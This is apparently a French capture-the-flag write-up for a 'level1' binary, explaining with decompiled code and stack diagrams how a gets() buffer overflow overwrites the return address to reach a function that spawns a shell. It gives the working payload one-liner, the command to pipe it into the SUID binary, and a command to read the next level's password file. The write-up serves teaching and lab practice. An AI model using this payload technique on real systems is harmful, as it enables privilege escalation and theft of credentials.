


# LEVEL 1

## 1. Introduction

Le binaire `level1` présente une vulnérabilité de **buffer overflow** classique. En analysant le code avec Ghidra, on découvre qu'une fonction `run()` exécute un shell. Notre objectif est de détourner le flux d'exécution pour appeler cette fonction.

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level1
-rwsr-s---+ 1 level2  level1  747441 Mar  6  2016 level1
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe :



```c
int main(void) {
    char local_50[76];  // Buffer de 76 octets
    
    gets(local_50);      // Fonction vulnérable
    return 0;
}

void run(void) {
    system("/bin/sh");   // Notre cible
}
```

**Points clés :**
- `gets()` ne vérifie pas la taille de l'entrée
- Buffer de 76 octets
- Fonction `run()` à l'adresse `0x08048444`

### 2.3 Qu'est-ce que EBP ?

**EBP** (Extended Base Pointer) est un registre de 32 bits dans l'architecture x86 qui joue un rôle crucial dans la gestion de la pile (stack) :

#### 2.3.1 Rôle d'EBP
- **Pointeur de base** : EBP pointe vers le début du cadre de pile (stack frame) de la fonction courante
- **Référence fixe** : Contrairement à ESP qui change, EBP reste constant pendant l'exécution d'une fonction
- **Accès aux variables locales** : Permet d'accéder aux variables locales via des décalages négatifs (ex: `[ebp-4]`)

#### 2.3.2 Structure de la pile avec EBP
```
┌─────────────────┐
│   Variables     │ ← Variables locales de la fonction
│   locales       │   (accès via [ebp-4], [ebp-8], etc.)
├─────────────────┤
│      EBP        │ ← Pointeur de base (sauvegardé)
├─────────────────┤
│   Adresse de    │ ← Adresse de retour (notre cible)
│    retour       │
├─────────────────┤
│   Paramètres    │ ← Arguments de la fonction
└─────────────────┘
```

Plus précisément dans notre cas :



## 3. Exploitation

### 3.1 Calcul du payload

Pour atteindre l'adresse de retour :
- Buffer : **76 octets**
- EBP : **4 octets** 
- **Total : 80 octets** + adresse de `run()`

### 3.2 Construction du payload

```bash
# Adresse de run() en little-endian
# 0x08048444 → \x44\x84\x04\x08

# Génération du payload
python -c 'print("A"*80 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
```

### 3.3 Exécution de l'exploit

```bash
# Injection du payload
cat /tmp/exploit.txt - | ./level1

# Récupération du flag
cat /home/user/level2/.pass
```

### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level1@<IP> -p 4242

# Créer le payload
python -c 'print("A"*80 + "\x44\x84\x04\x08")' > /tmp/exploit.txt

# Exécuter l'exploit
cat /tmp/exploit.txt - | ./level1

# Récupérer le flag
cat /home/user/level2/.pass
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                 BUFFER OVERFLOW                        │
├─────────────────────────────────────────────────────────┤
│  Buffer[76] + EBP[4] + Adresse de retour[4]          │
│  │                                                    │
│  └─→ "A"*80 + "\x44\x84\x04\x08"                    │
│      │                                                │
│      └─→ Écrasement de l'adresse de retour           │
│          │                                            │
│          └─→ Redirection vers run()                   │
│              │                                        │
│              └─→ system("/bin/sh")                    │
│                  │                                    │
│                  └─→ Shell avec privilèges level2    │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la pile

```
┌─────────────────┐
│   Buffer[76]    │ ← Notre entrée (76 octets)
├─────────────────┤
│      EBP        │ ← 4 octets (sauvegardé)
├─────────────────┤
│   Retour main   │ ← 4 octets (notre cible)
└─────────────────┘
```

### 4.3 Flux d'exécution

```
1. gets() lit notre entrée sans vérification
2. Buffer déborde de 76 + 4 = 80 octets
3. Adresse de retour est écrasée par 0x08048444
4. Quand main() se termine, exécution continue dans run()
5. run() appelle system("/bin/sh")
6. Shell s'ouvre avec les privilèges SUID de level2
```

### 4.4 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Payload       │    │   Écrasement    │    │   Redirection   │
│   "A"*80 +      │───▶│   Adresse de    │───▶│   run() →       │
│   \x44\x84...   │    │   retour        │    │   system("/sh") │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette vulnérabilité exploite un **buffer overflow** classique. En dépassant le buffer de 76 octets et en écrasant l'adresse de retour, on redirige l'exécution vers la fonction `run()` qui lance un shell avec les privilèges de level2. 